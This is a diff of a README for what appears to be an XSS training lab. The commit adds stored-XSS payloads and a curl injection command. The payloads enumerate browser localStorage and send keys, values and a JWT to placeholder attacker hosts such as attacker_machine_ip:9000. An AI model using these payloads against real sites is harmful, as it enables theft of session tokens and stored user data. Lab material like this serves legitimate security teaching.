

Before and after one commit to hipoloco/xsslab, a Markdown page: README.md, 3 parts joined by grey strips. Shown at 80% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -409,7 +465,7 @@ Why the rest of the parameters make sense:
 - `mode: 'no-cors'` is enough because the attacker only needs the browser to send the request
 - `Content-Type: 'text/plain'` keeps the body easy to inspect by hand
 
-### Step 11.1: use an external JavaScript file if the message field is too small
+### Step 12.1: use an external JavaScript file if the message field is too small
 
 If the inline payload is too long for the `message` field, serve the external helper already included in the repo.
 
@@ -542,9 +598,48 @@ Expected on the attacker machine with `python3 -m http.server 8000`:
 
 The `404` is fine. What matters is that the request reached the attacker-controlled server.
 
+### `localStorage` enumeration from the privileged browser
+
+Use this first if you want to discover how the privileged browser stores reusable state:
+
+```html
+<script>
+for (let i = 0; i < localStorage.length; i += 1) {
+  const key = localStorage.key(i);
+  const value = localStorage.getItem(key) || '';
+  new Image().src =
+    'http://attacker_machine_ip:9000/collect?key=' +
+    encodeURIComponent(key) +
+    '&value=' +
+    encodeURIComponent(value);
+}
+</script>
+```
+
+Same-host validation shortcut:
+
+```html
+<script>
+for (let i = 0; i < localStorage.length; i += 1) {
+  const key = localStorage.key(i);
+  const value = localStorage.getItem(key) || '';
+  new Image().src =
+    'http://docker_host_gateway_ip:9000/collect?key=' +
+    encodeURIComponent(key) +
+    '&value=' +
+    encodeURIComponent(value);
+}
+</script>
+```
+
+Expected in vulnerable mode:
+
+- `collector.py` receives one or more `GET /collect`
+- at least one leaked value has the shape of a JWT
+
 ### JWT theft from the privileged browser
 
-Use this after the first probe if you want to confirm that the privileged browser keeps the internal JWT in `localStorage`:
+Use this after you already identified the `localStorage` key that contains the JWT:
 
 ```html
 <img src=x onerror="new Image().src='http://attacker_machine_ip:9000/collect?jwt='+encodeURIComponent(localStorage.getItem('gym_internal_token')||'missing')">
@@ -698,6 +793,16 @@ curl -i -X POST http://cross.fit/contact \
   -d "email=juan@example.com" \
   -d "phone=099123456" \
   -d "message=Quiero informacion sobre planes mensuales"
+```
+
+### `localStorage` enumeration payload
+
+```bash
+curl -i -X POST http://cross.fit/contact \
+  -d "full_name=Alumno XSS Storage" \
+  -d "email=xss-storage@example.com" \
+  -d "phone=099000000" \
+  --data-urlencode "message=<script>for (let i = 0; i < localStorage.length; i += 1) { const key = localStorage.key(i); const value = localStorage.getItem(key) || ''; new Image().src='http://attacker_machine_ip:9000/collect?key='+encodeURIComponent(key)+'&value='+encodeURIComponent(value); }</script>"
 ```
 
 ### JWT theft payload
````
Also changed, not shown: other parts of README.md (+66 -10 lines).
